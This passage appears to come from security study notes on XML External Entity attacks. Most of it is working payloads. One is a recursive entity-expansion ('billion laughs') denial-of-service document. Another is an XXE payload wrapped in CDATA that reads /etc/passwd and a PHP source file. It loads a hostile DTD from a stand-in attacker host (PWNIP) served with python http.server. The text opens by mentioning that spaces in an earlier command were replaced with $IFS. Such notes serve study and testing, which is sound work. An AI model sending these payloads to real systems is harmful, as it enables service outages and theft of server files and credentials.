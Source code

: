 **Note:** We replaced all spaces in the above XML code with `$IFS`, to avoid breaking the XML syntax. Furthermore, many other characters like `|`, `>`, and `{` may break the code, so we should avoid using them.

#### DDOS
[[DDOS]]
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```


#### CDATA

CDATA is raw content, e.g.
```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

exploit:
```shell
echo '<!ENTITY joined "%begin;%file;%end;">' > XXE.dtd
python -m http.server 8888
```
Send:
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % end "]]>">
  <!ENTITY % xxe SYSTEM "http://PWNIP:8888/XXE.dtd">
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```
